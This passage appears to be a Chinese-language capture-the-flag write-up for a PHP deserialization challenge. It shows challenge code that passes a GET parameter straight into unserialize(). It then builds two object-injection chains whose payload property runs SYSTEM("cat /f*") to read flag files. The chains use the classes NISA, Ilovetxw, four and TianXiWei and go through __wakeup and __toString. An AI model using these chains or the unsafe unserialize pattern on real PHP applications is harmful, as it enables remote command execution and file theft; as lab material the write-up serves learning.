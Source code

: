 ```php
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a);
        }
    }
}

if(isset($_GET['ser'])){
    @unserialize($_GET['ser']);
}else{
    highlight_file(__FILE__);
}

//func checkcheck($data){
//  if(preg_match(......)){
//      die(something wrong);
//  }
//}

//function hint(){
//    echo ".......";
//    die();
//}
?>
```



构造反序列化字符串

```php
$nisa = new NISA;
$nisa->txw4ever = "SYSTEM(\"cat /f*\");";
$nisa->fun = "test";
$love = new Ilovetxw;
$love->su = $nisa;
$four = new four;
$four->a = $love;
$love->huang = $four;
$tian = new TianXiWei;
$tian->ext = $love;

echo serialize($tian);
```



更简单的方法，__wakeup 模仿方法中，有一个 if($this->fun=="show_me_flag") 若比较，如果 $this-fun 为一个对象，将会调用这个对象那个的`__tostring` 魔法函数。

构造反序列化字符串

```php
$nisa = new NISA;
$nisa->txw4ever = "SYSTEM(\"cat /f*\");";

$love = new Ilovetxw;
$love->su = $nisa;

$nisa->fun = $love;

echo serialize($nisa);
```
